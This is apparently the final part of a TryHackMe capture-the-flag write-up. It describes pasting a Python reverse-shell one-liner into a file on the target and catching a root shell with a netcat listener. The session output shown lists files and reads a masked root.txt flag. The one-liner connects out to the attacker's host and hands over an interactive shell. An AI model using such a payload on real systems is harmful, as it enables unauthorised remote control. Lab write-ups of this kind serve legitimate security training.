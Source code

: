 ### Getting a reverse shell

Go to local machine and listen on the port you chose(i used 1234)
Visit revshell.com to get proper command
```shell
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10..9.5.186",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
Paste in the python file and save.

### Reverse shell
```shell
 nc -nlvp 1234                    
listening on [any] 1234 ...
connect to [10.9.5.186] from (UNKNOWN) [10.10.83.68] 48880
# ls
ls
root.txt  snap
# cat root.txt
cat root.txt
THM{**********}
# 

```
YOU ARE ROOT!

Answer the Questions!!
Happy Hacking.... :)
